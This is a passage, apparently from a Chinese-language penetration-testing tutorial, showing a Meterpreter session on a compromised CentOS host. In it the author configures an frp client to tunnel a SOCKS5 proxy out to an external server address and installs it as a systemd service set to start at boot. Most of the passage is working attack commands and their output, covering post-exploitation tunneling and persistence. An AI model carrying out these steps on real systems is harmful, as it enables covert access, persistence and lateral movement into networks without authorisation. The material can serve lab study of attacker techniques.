 ```shell
100755/rwxr-xr-x  13934592  fil   2021-10-13 03:24:10 -0400  frps
100644/rw-r--r--  26        fil   2021-10-13 03:24:09 -0400  frps.ini
100644/rw-r--r--  5010      fil   2021-10-13 03:24:09 -0400  frps_full.ini
40755/rwxr-xr-x   88        dir   2021-10-13 03:24:09 -0400  systemd

meterpreter > edit frpc.ini

如下：
[common]
server_addr = 175.24.115.4
server_port = 7000


[socks9999]
type = tcp
remote_port = 9999
plugin = socks5
use_encryption = true
use_compression = true
```

```shell
meterpreter > mv frpc /usr/bin/frpc             #移动frpc客户端到/usr/bin/
meterpreter > mkdir /etc/frp                   #创建/etc/frp文件夹
Creating directory: /etc/frp                   
meterpreter > mv frpc.ini /etc/frp/frpc.ini    #移动frpc.ini客户端配置文件到/etc/frp/
meterpreter > mv ./systemd/frpc.service /usr/lib/systemd/system/frpc.service  #添加systemctl服务，
meterpreter > shell                            #进入shell
Process 10218 created.
Channel 4 created.
chmod +x /usr/bin/frpc                          #给frpc客户端执行权限
systemctl start frpc                            #通过systemctl方式启动
systemctl enable frpc							#开启自启动
Created symlink from /etc/systemd/system/multi-user.target.wants/frpc.service to /usr/lib/systemd/system/frpc.service.
exit                                            #退出
```



在Centos：192.168.111.138，验证是否开启：`systemctl status frpc`

![image-20211013162322493](/assets/image-20211013162322493.png)

